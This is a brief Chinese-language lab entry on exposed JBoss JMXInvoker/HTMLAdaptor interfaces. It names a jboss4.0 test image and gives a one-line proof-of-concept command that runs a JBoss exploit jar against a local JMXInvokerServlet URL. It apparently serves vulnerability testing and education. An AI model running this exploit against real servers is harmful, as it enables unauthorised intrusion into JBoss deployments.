 ### 运维安全 - JMXInvoker/HTMLAdaptor/... 对外暴露

测试镜像

* src/base/jboss4.0

Poc

```
java -jar jboss_exploit_fat.jar -i http://127.0.0.1/invoker/JMXInvokerServlet
```

